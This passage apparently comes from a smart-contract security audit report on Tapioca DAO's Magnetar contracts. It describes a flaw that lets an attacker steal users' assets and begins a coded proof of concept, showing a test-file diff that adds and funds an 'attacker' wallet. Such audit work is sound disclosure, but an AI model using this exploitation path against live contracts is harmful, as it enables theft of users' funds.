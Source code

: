 ```
            withdrawAdapterParams: ethers.utils.toUtf8Bytes(''),
        },
    );
```
    - As a result, the user's assets will be stolen from his account and transfered to an account controlled by the attacker.

### Coded PoC
- I coded a PoC to demonstrate this vulnerability, I used the [`magnetar.test.ts`](https://github.com/Tapioca-DAO/tapioca-periph-audit/blob/023751a4e987cf7c203ab25d3abba58f7344f213/test/magnetar.test.ts) file as the base for this PoC.

1. The first step is to add the `attacker` account in the [`test.utils.ts`](https://github.com/Tapioca-DAO/tapioca-periph-audit/blob/023751a4e987cf7c203ab25d3abba58f7344f213/test/test.utils.ts) file
```
> git diff --no-index test.utils.ts testPoC.utils.ts

diff --git a/test.utils.ts b/testPoC.utils.ts
index 00fc388..83107e6 100755
--- a/test.utils.ts
+++ b/testPoC.utils.ts
@@ -1023,8 +1023,14 @@ export async function register(staging?: boolean) {
         ethers.provider,
     );

+    const attacker = new ethers.Wallet(
+        ethers.Wallet.createRandom().privateKey,
+        ethers.provider,
+    );
+
     if (!staging) {
         await setBalance(eoa1.address, 100000);
+        await setBalance(attacker.address, 100000);
     }

     // ------------------- Deploy WethUSDC mock oracle -------------------
@@ -1314,6 +1320,7 @@ export async function register(staging?: boolean) {

     if (!staging) {
         await setBalance(eoa1.address, 100000);
+        await setBalance(attacker.address, 100000);
     }

     const initialSetup = {
@@ -1341,6 +1348,7 @@ export async function register(staging?: boolean) {
         _sglLeverageModule,
         magnetar,
         eoa1,
+        attacker,
         multiSwapper,
         singularityFeeTo,
         liquidationQueue,
```
